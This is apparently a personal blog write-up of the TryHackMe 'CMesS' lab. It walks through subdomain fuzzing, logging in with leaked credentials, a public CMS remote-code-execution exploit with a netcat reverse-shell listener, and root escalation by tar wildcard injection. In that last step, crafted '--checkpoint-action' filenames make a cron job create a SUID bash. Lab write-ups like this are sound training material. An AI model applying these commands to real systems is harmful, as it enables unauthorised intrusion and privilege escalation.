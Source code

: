 ```yaml
---
title: /writeups/CMesS
layout: post
permalink: /writeups/CMesS
---
```

Writeup of THM Machine called <a href="https://tryhackme.com/r/room/cmess">"CMesS"</a>

The only interesting thing in the nmap scan is the port 80 so that'll be the place to start.

Unfortunately there's nothing interesting on the default page, and dirbusting gives us nothing either besides the /admin login portal.
However, after running wfuzz:
`wfuzz -c -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u "http://cmess.thm/" -H "Host: FUZZ.cmess.thm" --hl 107` (the `--hl 107` filters the results for us to exclude the 404s)
We can find interesting dev.cmess.thm.

<img src="/images/DevCmess.png" alt="dev.cmess.thm" />

And there's obviously an email and a password that we can use to log in on /admin found earlier

After we log in, the admin page greets us with the version of the CMS

<img src="/images/VersionCmess.png" alt="cmess version" />

Searchsploit tells us that there's an authenticated RCE for that exact version.
You can get the exploit [here](https://www.exploit-db.com/exploits/51569)

<img src="/images/ExploitCmess.png" alt="cmess exploit" />

The exploit obviously works and gives us a www-data shell (Remember to start the listener before running the exploit! `nc -lvnp <port>')

#PrivEsc

I think that the PrivEsc is actually the hardest part of this box. 
Running both Linpeas and LinEnum gives us 2 interesting findings.

The first one is the crontab

<img src="/images/LinPeasCmess.png" alt="cmess Crontab finding" />

We can clearly see that it's vulnerable to wildcard injection but we are not able to exploit it yet because we do not have access to the `/home/andre/backup`

For some reason the LinPeas was extremely slow on this machine so I decided to run LinEnum and it gave me this:

<img src="/images/LinEnumCmess.png" alt="LinEnum finding" />

It turns out that this file contains the andre's password

<img src="/images/AndreCmess.png" alt="Andre passwd" />

Now, we've got every piece of information needed to root this machine.

First, we ssh as andre:
`ssh andre@<ip>`
and provide the password found in the backup file.

Thanks to that, we have access to `/home/andre/backup`, so let's cd there.
`cd /home/andre/backup`

Now we can proceed with the wildcard injection...
`nano shell.sh`
In the nano  we write:
```
#!/bin/bash
cp /bin/bash /tmp/bash; chmod +s /tmp/bash
```
Now, we have to create some files to make the cron execute our shell.sh
```
echo "" > "--checkpoint-action=exec=sh shell.sh"  
echo "" > --checkpoint=1
```
And now we wait.

After a minute we should see a SUID copy of bash in the /tmp directory.
To get the root we simply run it:
<img src="/images/RootCmess.png" alt="Root CMess" />

Thank you for reading
